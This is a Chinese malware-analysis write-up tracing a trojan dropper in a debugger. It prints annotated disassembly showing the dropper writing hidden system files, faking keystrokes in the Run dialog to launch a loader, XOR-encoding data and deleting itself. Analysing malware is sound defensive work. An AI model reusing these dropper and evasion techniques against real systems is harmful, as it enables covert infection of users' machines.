




# 病毒释放者程序分析 Trojan-Dropper.Win32.Agent.arnz

> 原文：[`www.pediy.com/kssd/pediy12/129063.html`](https://www.pediy.com/kssd/pediy12/129063.html)

病毒来源:http://bbs.kafan.cn/thread-906223-1-1.html  
这是我第一次分析病毒，欢迎提出意见建议！  
  
用 PEid 查壳，发现程序加了 upx 的壳，用 ESP 定律就可以脱壳了！  
  
注意,附件里面的部分文件被病毒设置成了系统文件,有隐藏属性,用 RAR 可以看到!  
00417A40   .  60            pushad  
00417A41   .  BE 00D04000   mov     esi, 0040D000  ；运行到这里后，输入 hr esp 运行即可  
00417A46   .  8DBE 0040FFFF lea     edi, dword ptr \[esi+FFFF4000\]  
00417A4C   .  57            push    edi  
00417A4D   .  EB 0B         jmp     short 00417A5A  
... ...  
00417BE7   .  8D4424 80     lea     eax, dword ptr \[esp-80\]  
00417BEB   >  6A 00         push    0  
00417BED   .  39C4          cmp     esp, eax  
00417BEF   .^ 75 FA         jnz     short 00417BEB  
00417BF1   .  83EC 80       sub     esp, -80  
00417BF4   .- E9 97A8FEFF   jmp     00402490  ;这里跳转后就是 OEP 了  
... ...  
00402490 >  81EC 1C040000   sub     esp, 41C   ；这里就是 OEP  
00402496    A1 00404000     mov     eax, dword ptr \[404000\]  
0040249B    33C4            xor     eax, esp  
0040249D    898424 18040000 mov     dword ptr \[esp+418\], eax  
004024A4    FF05 00504000   inc     dword ptr \[405000\]  
004024AA    90              nop  
004024AB    90              nop  
004024AC    33C0            xor     eax, eax  
004024AE    90              nop  
004024AF    90              nop  
004024B0    33C0            xor     eax, eax  
004024B2    68 03010000     push    103  
004024B7    8D4424 0C       lea     eax, dword ptr \[esp+C\]  
004024BB    50              push    eax  
004024BC    FF15 14304000   call    dword ptr \[<&kernel32.GetSystemD>; 获取系统 system32 目录  
004024C2    90              nop  
004024C3    90              nop  
004024C4    33C0            xor     eax, eax  
004024C6    33C0            xor     eax, eax  
004024C8    EB 06           jmp     short 004024D0  
004024CA    8D9B 00000000   lea     ebx, dword ptr \[ebx\]  
004024D0    8A4C04 08       mov     cl, byte ptr \[esp+eax+8\]  
004024D4    888C04 10020000 mov     byte ptr \[esp+eax+210\], cl       ; 拷贝目录到局部变量（堆栈）  
004024DB    40              inc     eax  
004024DC    84C9            test    cl, cl  
004024DE  ^ 75 F0           jnz     short 004024D0  
  
0012FBB0  43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74 65  C:\\WINDOWS\\system32  
0012FBC0  6D 33 32                                         m32  
  
004024E0    33C0            xor     eax, eax  
004024E2    8A4C04 08       mov     cl, byte ptr \[esp+eax+8\]  
004024E6    888C04 14030000 mov     byte ptr \[esp+eax+314\], cl       ; 又拷贝目录  
004024ED    40              inc     eax  
004024EE    84C9            test    cl, cl  
004024F0  ^ 75 F0           jnz     short 004024E2  
004024F2    33C0            xor     eax, eax  
004024F4    8A4C04 08       mov     cl, byte ptr \[esp+eax+8\]  
004024F8    888C04 0C010000 mov     byte ptr \[esp+eax+10C\], cl       ; 再拷贝  
004024FF    40              inc     eax  
00402500    84C9            test    cl, cl  
00402502  ^ 75 F0           jnz     short 004024F4  
00402504    90              nop  
00402505    90              nop  
00402506    33C0            xor     eax, eax  
00402508    8D4424 08       lea     eax, dword ptr \[esp+8\]  
0040250C    48              dec     eax  
0040250D    8D49 00         lea     ecx, dword ptr \[ecx\]  
00402510    8A48 01         mov     cl, byte ptr \[eax+1\]  
00402513    40              inc     eax  
00402514    84C9            test    cl, cl  
00402516  ^ 75 F8           jnz     short 00402510  
00402518    8B0D 64314000   mov     ecx, dword ptr \[403164\]          ; 这里的数据其实是字符串\\usp10.dll  
0040251E    8B15 68314000   mov     edx, dword ptr \[403168\]  
00402524    8908            mov     dword ptr \[eax\], ecx  
00402526    66:8B0D 6C31400>mov     cx, word ptr \[40316C\]  
0040252D    8950 04         mov     dword ptr \[eax+4\], edx  
00402530    8A15 6E314000   mov     dl, byte ptr \[40316E\]  
00402536    66:8948 08      mov     word ptr \[eax+8\], cx  
0040253A    8850 0A         mov     byte ptr \[eax+A\], dl             ; 和系统 system32 目录连接..system32\\usp10.dll  
  
0012FBAF  00 43 3A 5C 57 49 4E 44 4F 57 53 5C 73 79 73 74  .C:\\WINDOWS\\syst  
0012FBBF  65 6D 33 32 5C 75 73 70 31 30 2E 64 6C 6C        em32\\usp10.dll  
  
.... ...  
  
00402576  ^ 75 F8           jnz     short 00402570  
00402578    8B15 70314000   mov     edx, dword ptr \[403170\]  
0040257E    8B0D 74314000   mov     ecx, dword ptr \[403174\]  
00402584    8910            mov     dword ptr \[eax\], edx  
00402586    8B15 78314000   mov     edx, dword ptr \[403178\]  
0040258C    53              push    ebx  
0040258D    8948 04         mov     dword ptr \[eax+4\], ecx  
00402590    8A0D 7C314000   mov     cl, byte ptr \[40317C\]  
00402596    56              push    esi  
00402597    8950 08         mov     dword ptr \[eax+8\], edx  
0040259A    57              push    edi  
0040259B    8848 0C         mov     byte ptr \[eax+C\], cl             ; 和系统 system32 目录连接..system32\\lqcyc52.cyc  
  
0012FCB7  57 49 4E 44 4F 57 53 5C 73 79 73 74 65 6D 33 32  WINDOWS\\system32  
0012FCC7  5C 6C 71 63 79 63 35 32 2E 63 79 63 00           \\lqcyc52.cyc.  
  
004025A2    68 F4304000     push    004030F4                                ; ASCII "CYCS"  
004025A7    6A 65           push    65  
004025A9    6A 00           push    0  
004025AB    FF15 50304000   call    dword ptr \[<&kernel32.FindResourceA>\]   ; 查找资源  
004025B1    8BF0            mov     esi, eax  
004025B3    56              push    esi  
004025B4    6A 00           push    0  
004025B6    FF15 0C304000   call    dword ptr \[<&kernel32.SizeofResource>\]  ; 资源大小  
004025BC    56              push    esi  
004025BD    6A 00           push    0  
004025BF    8BF8            mov     edi, eax  
004025C1    FF15 48304000   call    dword ptr \[<&kernel32.LoadResource>\]    ; 载入资源  
004025C7    68 8C304000     push    0040308C                                ; ASCII "imm32.dll"  
004025CC    8BD8            mov     ebx, eax  
004025CE    FF15 24304000   call    dword ptr \[<&kernel32.GetModuleHandleA>>; kernel32.GetModuleHandleA  
004025D4    85C0            test    eax, eax  
004025D6    75 07           jnz     short 004025DF  
004025D8    50              push    eax  
004025D9    FF15 5C304000   call    dword ptr \[<&kernel32.ExitProcess>\]     ; kernel32.ExitProcess  
004025DF    6A 04           push    4  
004025E1    68 00100000     push    1000  
004025E6    8D57 01         lea     edx, dword ptr \[edi+1\]  
004025E9    52              push    edx  
004025EA    6A 00           push    0  
004025EC    FF15 18304000   call    dword ptr \[<&kernel32.VirtualAlloc>\]    ; 申请内存  
004025F2    6A 00           push    0  
004025F4    57              push    edi  
004025F5    53              push    ebx  
004025F6    8BF0            mov     esi, eax  
004025F8    FF15 58304000   call    dword ptr \[<&kernel32.LockResource>\]    ; kernel32.SetHandleCount  
004025FE    50              push    eax  
004025FF    56              push    esi  
00402600    FF15 44304000   call    dword ptr \[<&kernel32.GetCurrentProcess>; kernel32.GetCurrentProcess  
00402606    50              push    eax  
00402607    FF15 30304000   call    dword ptr \[<&kernel32.WriteProcessMemor>; 写入资源到申请内存  
0040260D    A0 9A304000     mov     al, byte ptr \[40309A\]  
00402612    66:8B1D 9830400>mov     bx, word ptr \[403098\]                   ; MZ 标志  
00402619    884424 12       mov     byte ptr \[esp+12\], al  
0040261D    FF15 1C304000   call    dword ptr \[<&kernel32.GetTickCount>\]    ; kernel32.GetTickCount  
00402623    6A 00           push    0  
00402625    6A 06           push    6  
00402627    6A 01           push    1  
00402629    6A 00           push    0  
0040262B    6A 00           push    0  
0040262D    68 00000040     push    40000000  
00402632    8D8C24 30010000 lea     ecx, dword ptr \[esp+130\]                ; "C:\\WINDOWS\\system32\\lqcyc52.cyc"  
00402639    66:891E         mov     word ptr \[esi\], bx                      ; MZ  
0040263C    51              push    ecx  
0040263D    8946 02         mov     dword ptr \[esi+2\], eax                  ; 修改 DOS 结构  
00402640    FF15 54304000   call    dword ptr \[<&kernel32.CreateFileA>\]     ; 创建一个隐藏的系统文件  
  
0012FAA0   0012FACC  |FileName = "C:\\WINDOWS\\system32\\lqcyc52.cyc  
0012FAA4   40000000  |Access = GENERIC\_WRITE  
0012FAA8   00000000  |ShareMode = 0  
0012FAAC   00000000  |pSecurity = NULL  
0012FAB0   00000001  |Mode = CREATE\_NEW  
0012FAB4   00000006  |Attributes = HIDDEN|SYSTEM  
0012FAB8   00000000  \\hTemplateFile = NULL  
  
00402646    6A 00           push    0  
00402648    8D5424 10       lea     edx, dword ptr \[esp+10\]  
0040264C    52              push    edx  
0040264D    57              push    edi  
0040264E    8BD8            mov     ebx, eax  
00402650    56              push    esi  
00402651    53              push    ebx  
00402652    FF15 04304000   call    dword ptr \[<&kernel32.WriteFile>\]       ; 将内存数据放入写入文件  
00402658    53              push    ebx  
00402659    FF15 2C304000   call    dword ptr \[<&kernel32.CloseHandle>\]     ; 关闭文件句柄  
0040265F    E8 4CFCFFFF     call    004022B0                                ; 进入。。  
;=====================================\[004022B0\]======================================================  
004022B0    81EC D0000000   sub     esp, 0D0  
004022B6    A1 00404000     mov     eax, dword ptr \[404000\]  
004022BB    33C4            xor     eax, esp  
004022BD    898424 CC000000 mov     dword ptr \[esp+CC\], eax  
004022C4    68 03010000     push    103  
004022C9    8D4424 08       lea     eax, dword ptr \[esp+8\]  
004022CD    50              push    eax  
004022CE    FF15 14304000   call    dword ptr \[<&kernel32.GetSystemDirector>; 获取目录"C:\\WINDOWS\\system32"  
004022D4    8D4424 04       lea     eax, dword ptr \[esp+4\]  
004022D8    48              dec     eax  
004022D9    8DA424 00000000 lea     esp, dword ptr \[esp\]  
004022E0    8A48 01         mov     cl, byte ptr \[eax+1\]  
004022E3    40              inc     eax  
004022E4    84C9            test    cl, cl  
004022E6  ^ 75 F8           jnz     short 004022E0  
004022E8    8B0D FC304000   mov     ecx, dword ptr \[4030FC\]  
  
查看下\[4030FC\]里面的数据，发现一些有意思的东西  
004030FC  5C 74 61 73 6B 6E 67 72 2E 65 78 65 00 00 00 00  \\taskngr.exe....  
0040310C  D4 CB D0 D0 00 00 00 00 43 6F 6D 62 6F 42 6F 78  运行....ComboBox  
0040311C  00 00 00 00 45 64 69 74 00 00 00 00 22 00 74 00  ....Edit....".t.  
0040312C  61 00 73 00 6B 00 6E 00 67 00 72 00 22 00 20 00  a.s.k.n.g.r.". .  
0040313C  6C 00 71 00 63 00 79 00 63 00 35 00 32 00 2E 00  l.q.c.y.c.5.2...  
0040314C  63 00 79 00 63 00 00 00 C8 B7 B6 A8 00 00 00 00  c.y.c...确定....  
0040315C  42 75 74 74 6F 6E 00 00 5C 75 73 70 31 30 2E 64  Button..\\usp10.d  
0040316C  6C 6C 00 00 5C 6C 71 63 79 63 35 32 2E 63 79 63  ll..\\lqcyc52.cyc  
  
004022EE    8B15 00314000   mov     edx, dword ptr \[403100\]  
004022F4    53              push    ebx  
004022F5    56              push    esi  
004022F6    57              push    edi  
004022F7    8908            mov     dword ptr \[eax\], ecx  
004022F9    8B0D 04314000   mov     ecx, dword ptr \[403104\]  
004022FF    68 F4304000     push    004030F4                         ; ASCII "CYCS"  
00402304    8950 04         mov     dword ptr \[eax+4\], edx  
00402307    8A15 08314000   mov     dl, byte ptr \[403108\]  
0040230D    6A 68           push    68  
0040230F    8948 08         mov     dword ptr \[eax+8\], ecx  
00402312    6A 00           push    0  
00402314    8850 0C         mov     byte ptr \[eax+C\], dl  ;"C:\\WINDOWS\\system32\\taskngr.exe"  
00402317    FF15 50304000   call    dword ptr \[<&kernel32.FindResour>; kernel32.FindResourceA  
0040231D    8BF8            mov     edi, eax  
0040231F    57              push    edi  
00402320    6A 00           push    0  
00402322    FF15 0C304000   call    dword ptr \[<&kernel32.SizeofReso>; kernel32.SizeofResource  
00402328    57              push    edi  
00402329    6A 00           push    0  
0040232B    8BF0            mov     esi, eax  
0040232D    FF15 48304000   call    dword ptr \[<&kernel32.LoadResour>; kernel32.LoadResource  
00402333    6A 04           push    4  
00402335    8BD8            mov     ebx, eax  
00402337    68 00100000     push    1000  
0040233C    8D46 01         lea     eax, dword ptr \[esi+1\]  
0040233F    50              push    eax  
00402340    6A 00           push    0  
00402342    FF15 18304000   call    dword ptr \[<&kernel32.VirtualAll>; kernel32.VirtualAlloc  
00402348    6A 00           push    0  
0040234A    56              push    esi  
0040234B    53              push    ebx  
0040234C    8BF8            mov     edi, eax  
0040234E    FF15 58304000   call    dword ptr \[<&kernel32.LockResour>; kernel32.SetHandleCount  
00402354    50              push    eax  
00402355    57              push    edi  
00402356    FF15 44304000   call    dword ptr \[<&kernel32.GetCurrent>; kernel32.GetCurrentProcess  
0040235C    50              push    eax  
0040235D    FF15 30304000   call    dword ptr \[<&kernel32.WriteProce>; kernel32.WriteProcessMemory  
00402363    6A 00           push    0  
00402365    6A 06           push    6  
00402367    6A 01           push    1  
00402369    6A 00           push    0  
0040236B    6A 00           push    0  
0040236D    68 00000040     push    40000000  
00402372    8D4C24 28       lea     ecx, dword ptr \[esp+28\]  
00402376    51              push    ecx  
00402377    FF15 54304000   call    dword ptr \[<&kernel32.CreateFile>; kernel32.CreateFileA  
0040237D    6A 00           push    0  
0040237F    8D5424 10       lea     edx, dword ptr \[esp+10\]  
00402383    52              push    edx  
00402384    56              push    esi  
00402385    8BD8            mov     ebx, eax  
00402387    57              push    edi  
00402388    53              push    ebx  
00402389    FF15 04304000   call    dword ptr \[<&kernel32.WriteFile>>; kernel32.WriteFile  
0040238F    53              push    ebx  
00402390    FF15 2C304000   call    dword ptr \[<&kernel32.CloseHandl>; kernel32.CloseHandle  
  
//上面的代码不用解释了，跟刚刚的一样，取出资源，创建"C:\\WINDOWS\\system32\\taskngr.exe"文件，写入数据！重点要看下面这个 CALL  
  
00402396    E8 35000000     call    004023D0                         ; 这个里面貌似是 VM 代码。。悲剧了  
；＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝\[004023D0\]＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝  
004023D0  - E9 7D200100     jmp     00414452  
004023D5    56              push    esi  
004023D6    66:98           cbw  
004023D8    68 421892B2     push    B2921842  
004023DD    E8 DC0F0100     call    004133BE  
004023E2    895C24 30       mov     dword ptr \[esp+30\], ebx  
004023E6    54              push    esp  
004023E7    9C              pushfd  
004023E8    56              push    esi  
004023E9    9C              pushfd  
004023EA    8D6424 40       lea     esp, dword ptr \[esp+40\]  
004023EE  - E9 4A110100     jmp     0041353D  
004023F3    894424 04       mov     dword ptr \[esp+4\], eax  
004023F7    9C              pushfd  
004023F8  - E9 6D040100     jmp     0041286A  
004023FD    83C6 01         add     esi, 1  
00402400    884C24 08       mov     byte ptr \[esp+8\], cl  
00402404    8D6424 50       lea     esp, dword ptr \[esp+50\]  
00402408  - E9 E0080100     jmp     00412CED  
0040240D    0145 04         add     dword ptr \[ebp+4\], eax  
00402410    52              push    edx  
00402411  - E9 130B0100     jmp     00412F29  
00402416    FEC0            inc     al  
00402418  - E9 7B110100     jmp     00413598  
0040241D    9C              pushfd  
  
。。。。。。。。。。。。。。。。一直单步，看看有没有什么有用的信息，关键是看看哪里有调用 API  
  
单步到手抽筋之后，终于看到一个 API ，EAX 0040306C <&USER32.keybd\_event>此时，EIP 在 00413770 ...  
  
找到一个就好，VM 的代码好像调用 API 的同一个地方，而且一般是用 retn XX 来调用的，，所以给 keybd\_event 下断之后，按 Ctrl+F7 自动步入（自动步入的原因是我们到断点后，需要退后一格查看调用地址）  
  
不到一分钟的时间，断下来了，按-退一步：  
00412850    8B6C24 40       mov     ebp, dword ptr \[esp+40\]  
00412854    9C              pushfd  
00412855    8B4424 48       mov     eax, dword ptr \[esp+48\]  
00412859    9C              pushfd  
0041285A    885424 0C       mov     byte ptr \[esp+C\], dl  
0041285E    C64424 04 37    mov     byte ptr \[esp+4\], 37  
00412863    FF7424 50       push    dword ptr \[esp+50\]  
00412867    C2 5400         retn    54                               ; ；这里就是调用 API 的地方  
  
然后在\[00412867    C2 5400         retn    54    \]处下硬件执行，看看他执行哪些 API，来判断这个 VM 函数起什么作用！现在我们重新载入程序！然后直接运行，发现第一个 API 调用就是：keybd\_event  
函数功能：该函数合成一次击键事件。系统可使用这种合成的击键事件来产生 WM\_KEYUP 或 WM\_KEYDOWN 消息，键盘驱动程序的中断处理程序调用 keybd\_event 函数。在 Windows NT 中该函数己被使用 SendInput 来替代它。  
参数：  
bVk：定义一个虚拟键码。键码值必须在 1～254 之间。  
bScan:定义该键的硬件扫描码。 　　  
dwFlags:定义函数操作的名个方面的一个标志位集。应用程序可使用如下一些预定义常数的组合设置标志位。 　　  
KEYEVENTF\_EXETENDEDKEY：若指定该值，则扫描码前一个值为 OXEO（224）的前缀字节。KEYEVENTF\_KEYUP：若指定该值，该键将被释放；若未指定该值，该键交被接下。dwExtralnfo：定义与击键相关的附加的 32 位值。   
  
备注：尽管 keybd\_event 传递一个与 OEM 相关的硬件扫描码给系统，但应用程序不能用此扫描码。系统在内部将扫描码转换成虚拟键码，并且在传送给应用程序前清除键码的 UP/down 位。应用程序可以摸拟 PRINTSCREEN 键的按下来获得一个屏幕快照，并把它存放到剪切板中。若要做到这一点，则要将 keybd\_event 的 bVk 参数置为 VK\_SNAPSHOT,bScan 参数置为 0（用以获得全屏快照）或 hScan 置为 1（仅获得活动窗口的快照）。Windows CE：WindowsCE 支持 dwFlags 参数附加的标志位。即使用 KEYEVENTF\_SILENT 标志模拟击键，而不产生敲击的声音。Windows CE 不支持 KEYEVENTF\_EXTENDEDKEY 标志。  
  
0012FA98   0041430E  /CALL 到 keybd\_event  ；执行了这句之后，直接按 R “运行”程序就出来了，这句代码是按下 Win 键  
0012FA9C   0000005B  |Key = VK\_LWIN  
0012FAA0   00000000  |ScanCode = 0  
0012FAA4   00000000  |Flags = 0  
0012FAA8   00000000  \\ExtraInfo = 0  
  
0012FA98   0041446A  /CALL 到 keybd\_event   ；按下 R 键  
0012FA9C   00000052  |Key = 52  ('R')  
0012FAA0   00000000  |ScanCode = 0  
0012FAA4   00000000  |Flags = 0  
0012FAA8   00000000  \\ExtraInfo = 0  
  
0012FA98   00413DE6  /CALL 到 keybd\_event  ；放开 R 键  
0012FA9C   00000052  |Key = 52  ('R')  
0012FAA0   00000000  |ScanCode = 0  
0012FAA4   00000002  |Flags = KEYEVENTF\_KEYUP  
0012FAA8   00000000  \\ExtraInfo = 0  
  
0012FA98   00413E9D  /CALL 到 keybd\_event   ；放开 Win 键  
0012FA9C   0000005B  |Key = VK\_LWIN  
0012FAA0   00000000  |ScanCode = 0  
0012FAA4   00000002  |Flags = KEYEVENTF\_KEYUP  
0012FAA8   00000000  \\ExtraInfo = 0  
  
上面的执行结果就是调用“运行”对话框：  
  
继续：  
0012FAA0   004145C9  /CALL 到 FindWindowA ；查找窗口句柄  
0012FAA4   00000000  |Class = 0  
0012FAA8   0040310C  \\Title = "运行"  
  
。。。如果没有找到会一直循环下去。。悲剧啊。。。  
  
0012FA98   004147A8  /CALL 到 FindWindowExA ；找 ComboBox 句柄  
0012FA9C   003001BA  |hParent = 003001BA ('运行',class='#32770',parent=002D023C)  
0012FAA0   00000000  |hAfterWnd = NULL  
0012FAA4   00403114  |Class = "ComboBox"  
0012FAA8   00000000  \\Title = NULL  
  
0012FA98   00414908  /CALL 到 FindWindowExA ；找 Edit 句柄（ComboBox 里面有一个 Edit）  
0012FA9C   004C0182  |hParent = 004C0182 (class='ComboBox',parent=003001BA)  
0012FAA0   00000000  |hAfterWnd = NULL  
0012FAA4   00403120  |Class = "Edit"  
0012FAA8   00000000  \\Title = NULL  
  
0012FA98   00414BF5  /CALL 到 SendMessageW ；这个 VM 函数真正的目的出来了。。邪恶啊。。邪恶啊。。设置文本到 Edit  
0012FA9C   004501CE  |hWnd = 4501CE  
0012FAA0   0000000C  |Message = WM\_SETTEXT  
0012FAA4   00000000  |wParam = 0  
0012FAA8   00403128  \\Text = """taskngr"" lqcyc52.cyc"  
  
0012FA98   00414429  /CALL 到 FindWindowExA ；然后找“确定”按钮，下面肯定是单击这个确定按钮了。。。。  
0012FA9C   003001BA  |hParent = 003001BA ('运行',class='#32770',parent=002D023C)  
0012FAA0   00000000  |hAfterWnd = NULL  
0012FAA4   0040315C  |Class = "Button"  
0012FAA8   00403154  \\Title = "确定"  
  
0012FA98   004149A9  /CALL 到 SendMessageA ； 果然。。。  
0012FA9C   002F01CA  |hWnd = 2F01CA  
0012FAA0   00000201  |Message = WM\_LBUTTONDOWN  
0012FAA4   00000001  |Keys = MK\_LBUTTON  
0012FAA8   00000001  \\X = 1. Y = 0.  
  
0012FA98   00414411  /CALL 到 SendMessageA  
0012FA9C   002F01CA  |hWnd = 2F01CA  
0012FAA0   00000202  |Message = WM\_LBUTTONUP  
0012FAA4   00000001  |Keys = MK\_LBUTTON  
0012FAA8   00000001  \\X = 1. Y = 0.  
  
OK 到这里 VM 函数的任务就完成了。。直接返回了，VM 函数功能是利用“运行”程序，执行 "taskngr" lqcyc52.cyc 来加载 lqcyc52.cyc，如果没猜错的话 taskngr 是一个 DLL 加载工具，而且他的图标正是 OD 里面 loaddll.exe 的图标。。。。。  
；＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝  
0040239B    68 A00F0000     push    0FA0  
004023A0    FF15 08304000   call    dword ptr \[<&kernel32.Sleep>\]    ; kernel32.Sleep  
004023A6    8D4424 10       lea     eax, dword ptr \[esp+10\]  
004023AA    50              push    eax  
004023AB    FF15 34304000   call    dword ptr \[<&kernel32.DeleteFile>; 然后删除 taskngr.exe 文件  
004023B1    8B8C24 D8000000 mov     ecx, dword ptr \[esp+D8\]  
004023B8    5F              pop     edi  
004023B9    5E              pop     esi  
004023BA    5B              pop     ebx  
004023BB    33CC            xor     ecx, esp  
004023BD    E8 3EECFFFF     call    00401000  
004023C2    81C4 D0000000   add     esp, 0D0  
004023C8    C3              retn  ；然后在返回  
；＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝  
  
回到 00402664    处，这里也是一个 CALL，进去看看  
00402664    E8 77FAFFFF     call    004020E0  
；＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝  
004020E0    55              push    ebp  
004020E1    8DAC24 68FFFFFF lea     ebp, dword ptr \[esp-98\]  
004020E8    81EC 14010000   sub     esp, 114  
004020EE    A1 00404000     mov     eax, dword ptr \[404000\]  
004020F3    33C5            xor     eax, ebp  
004020F5    8985 94000000   mov     dword ptr \[ebp+94\], eax  
004020FB    68 04010000     push    104  
00402100    68 58444000     push    00404458                         ; ASCII "C:\\WINDOWS"  
00402105    FF15 00304000   call    dword ptr \[<&kernel32.GetWindows>; kernel32.GetWindowsDirectoryA  
0040210B    B8 58444000     mov     eax, 00404458                    ; C:\\WINDOWS 这回取的是系统目录  
00402110    48              dec     eax  
00402111    8A48 01         mov     cl, byte ptr \[eax+1\]  
00402114    40              inc     eax  
00402115    84C9            test    cl, cl  
00402117  ^ 75 F8           jnz     short 00402111  
00402119    8B0D E0304000   mov     ecx, dword ptr \[4030E0\]          ; ；\\systemdebug.exe  
0040211F    8B15 E4304000   mov     edx, dword ptr \[4030E4\]  
00402125    8908            mov     dword ptr \[eax\], ecx  
00402127    8B0D E8304000   mov     ecx, dword ptr \[4030E8\]  
0040212D    8950 04         mov     dword ptr \[eax+4\], edx  
00402130    8B15 EC304000   mov     edx, dword ptr \[4030EC\]  
00402136    53              push    ebx  
00402137    8948 08         mov     dword ptr \[eax+8\], ecx  
0040213A    8A0D F0304000   mov     cl, byte ptr \[4030F0\]  
00402140    56              push    esi  
00402141    8950 0C         mov     dword ptr \[eax+C\], edx  
00402144    57              push    edi  
00402145    8848 10         mov     byte ptr \[eax+10\], cl            ; C:\\WINDOWS\\systemdebug.exe"  
。。。。  
004021F9    FF15 20304000   call    dword ptr \[<&kernel32.GetModuleF>; 取进程地址  
004021FF    6A 00           push    0  
00402201    6A 00           push    0  
00402203    6A 03           push    3  
00402205    6A 00           push    0  
00402207    6A 01           push    1  
00402209    68 00000080     push    80000000  
0040220E    8D45 90         lea     eax, dword ptr \[ebp-70\]  
00402211    50              push    eax  
00402212    FF15 54304000   call    dword ptr \[<&kernel32.CreateFile>; 打开自己  
00402218    8BF0            mov     esi, eax  
0040221A    6A 02           push    2  
0040221C    6A 00           push    0  
0040221E    68 D4FEFFFF     push    -12C  
00402223    56              push    esi  
00402224    FF15 4C304000   call    dword ptr \[<&kernel32.SetFilePoi>; 设置指针  
0040222A    6A 04           push    4  
0040222C    68 00100000     push    1000  
00402231    68 58020000     push    258  
00402236    6A 00           push    0  
00402238    FF15 18304000   call    dword ptr \[<&kernel32.VirtualAll>; kernel32.VirtualAlloc  
0040223E    6A 00           push    0  
00402240    8D4D 8C         lea     ecx, dword ptr \[ebp-74\]  
00402243    51              push    ecx  
00402244    8BF8            mov     edi, eax  
00402246    68 2C010000     push    12C  
0040224B    57              push    edi  
0040224C    56              push    esi  
0040224D    897D 84         mov     dword ptr \[ebp-7C\], edi  
00402250    FF15 10304000   call    dword ptr \[<&kernel32.ReadFile>\] ; 取自己某处数据，可能是因为我脱了壳，所以取出来的数据全是空的，这个我会在后面带壳分析一次！！！  
00402256    56              push    esi  
00402257    8B35 2C304000   mov     esi, dword ptr \[<&kernel32.Close>; kernel32.CloseHandle  
0040225D    FFD6            call    esi  
0040225F    B9 2C010000     mov     ecx, 12C  
00402264    8B45 84         mov     eax, dword ptr \[ebp-7C\]  
00402267    8038 00         cmp     byte ptr \[eax\], 0  
0040226A    74 03           je      short 0040226F  
0040226C    8030 12         xor     byte ptr \[eax\], 12               ; 数据加密  
0040226F    40              inc     eax  
00402270  ^ E2 F5           loopd   short 00402267  
00402272    6A 00           push    0  
00402274    8D55 88         lea     edx, dword ptr \[ebp-78\]  
00402277    52              push    edx  
00402278    68 2C010000     push    12C  
0040227D    57              push    edi  
0040227E    53              push    ebx  
0040227F    FF15 04304000   call    dword ptr \[<&kernel32.WriteFile>>; 把数据写入 systemdebug.exe  
00402285    53              push    ebx  
00402286    FFD6            call    esi                              ; 关闭句柄  
。。。。  
代码和前面的差不多，取资源，创建 C:\\WINDOWS\\systemdebug.exe，然后写入数据！然后直接返回了！  
；＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝  
00402669    68 D0070000     push    7D0  
0040266E    FF15 08304000   call    dword ptr \[<&kernel32.Sleep>\]    ; kernel32.Sleep  
00402674    6A 00           push    0  
00402676    68 58444000     push    00404458                         ; ASCII "C:\\WINDOWS\\systemdebug.exe"  
0040267B    FF15 28304000   call    dword ptr \[<&kernel32.WinExec>\]  ; kernel32.WinExec  
00402681    E8 7AF9FFFF     call    00402000                         ; 这里是作清理工作，写出一个 BAT 删除自己  
00402686    6A 00           push    0  
00402688    FF15 5C304000   call    dword ptr \[<&kernel32.ExitProces>; kernel32.ExitProcess  
  
上面的代码不用解释了吧，直接运行 systemdebug.exe，然后作清理工作。  
  
；＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝＝上面说了，因为我脱了壳，所以取出来的数据全是空的，现在带壳重新在哪个部分分析一次，发现读取有数据读入：  
003E0000  5D 5D 5D 5D 5D 5D 7A 66 66 62 28 3D 3D 65 65 65  \]\]\]\]\]\]zffb(==eee  
003E0010  3C 7C 7A 7B 60 6B 3C 71 7D 7F 3D 21 3C 66 6A 66  <|z{\`k<q}=!<fjf  
003E0020  6E 51 28 4E 45 5B 5C 56 5D 45 41 4E 70 7D 7D 66  nQ(NE\[\\V\]EANp}}f  
